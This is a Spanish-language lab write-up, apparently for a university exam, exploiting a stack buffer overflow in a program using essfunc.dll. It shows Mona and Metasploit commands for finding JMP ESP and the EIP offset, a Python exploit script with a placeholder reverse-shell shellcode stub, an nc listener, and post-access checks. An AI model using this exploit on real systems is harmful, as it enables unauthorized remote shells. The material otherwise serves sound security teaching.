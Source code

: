 ```yaml
---
title: examen parcial
date: 2024-11-03 00:35:00 -05:00
categories: [web, parcial]
tags: [nmap, metasploit]  # tag names should always be lowercase
---
```




## Requerimientos de la Tarea

### 1. Verificar Direcciones `JMP ESP` y Probar Vulnerabilidad para Buffer Overflow

El primer objetivo es identificar y verificar si alguna de las direcciones `JMP ESP` en el módulo vulnerable (`essfunc.dll`) permite redirigir el flujo de ejecución a nuestro código malicioso (shellcode).

#### Paso 1.1: Buscar Direcciones `JMP ESP`

Utilizamos el plugin **Mona** en **Immunity Debugger** para localizar las instrucciones `JMP ESP` en `essfunc.dll`. Esto es esencial para redirigir la ejecución hacia nuestra shellcode cuando se desborda el buffer.

```plaintext
!mona find -s "\xff\xe4" -m essfunc.dll
```

La salida nos muestra una lista de direcciones posibles con `JMP ESP`. Utilizaremos una de estas direcciones en nuestro exploit.

#### Paso 1.2: Calcular el Offset del Buffer

Para sobrescribir el registro **EIP** (Instruction Pointer) y redirigir la ejecución, necesitamos conocer el desplazamiento (offset) en el buffer que alcanza el EIP.

1. Generar un patrón de prueba de 400 bytes con **Metasploit**:
   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
   ```
2. Ejecutamos el patrón en el programa vulnerable para provocar un crash.
3. Revisamos el valor que sobrescribe el **EIP** y calculamos el offset:
   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <VALOR_EIP>
   ```


#### Paso 1.3: Construir el Payload para el Exploit

Con el offset y la dirección `JMP ESP` confirmada, procedemos a crear el exploit en Python.

```python
import socket
import struct

# Información del objetivo
ip = "IP_OBJETIVO"
port = 9999

# Configuración del payload
offset = <OFFSET_CALCULADO>
buffer = b"A" * offset
jmp_esp = struct.pack("<I", 0x625011af)  # Dirección de JMP ESP verificada
nop_sled = b"\x90" * 16

# Shellcode para conexión TCP reversa (generado con msfvenom)
shellcode = (
    b"\xdb\xd3\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x52\x31\x58\x17\x03\x58\x17"
    # (Ejemplo de shellcode; reemplazar con el generado)
)

payload = buffer + jmp_esp + nop_sled + shellcode

# Enviar el payload
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((ip, port))
    s.send(payload)
```

---

### 2. Explicación de una Conexión TCP Reversa

Una **conexión TCP reversa** es una técnica en la cual la máquina comprometida inicia una conexión hacia el atacante, el cual está escuchando en un puerto específico. Este tipo de conexión es útil para evadir restricciones de firewall, ya que muchas redes permiten conexiones salientes.

#### Setup de Laboratorio: Conexión TCP Reversa

Para esta práctica, usamos dos máquinas virtuales (VMs): **Kali Linux** como atacante y una **máquina Windows vulnerable** como objetivo.

**Diagrama del Setup**:

```plaintext
+----------------+                 +----------------+
|   Kali Linux   | <----TCP----->  |    Windows     |
| (Listener)     |                 | (Vulnerable)   |
+----------------+                 +----------------+
```

En **Kali Linux**, usamos **Netcat** para escuchar conexiones:

```bash
nc -lvnp 4444  # Escuchar en el puerto 4444
```

Cuando el exploit se ejecuta en la máquina Windows, esta se conecta al listener en Kali, dándonos acceso a una shell remota.



### 3. Verificación de Permisos en la Shell

Después de obtener acceso, es importante verificar los permisos de la shell obtenida, lo cual nos permitirá saber qué privilegios tenemos en la máquina objetivo.

#### Paso 3.1: Comprobar Privilegios del Usuario

En la shell remota, ejecutamos los siguientes comandos para obtener información sobre los permisos y el usuario activo:

1. **Comprobar el usuario actual**:
   ```bash
   whoami
   ```
2. **Listar usuarios y roles**:
   ```bash
   net user
   ```

Estos comandos nos permitirán determinar si tenemos permisos administrativos o si se requiere una escalada de privilegios.



## Conclusión

Se analiza, cómo explotar una vulnerabilidad de buffer overflow para redirigir la ejecución y obtener una conexión TCP reversa en una máquina comprometida. Esta experiencia permitio entender el proceso de explotación y la configuración de un entorno de pruebas en ciberseguridad.



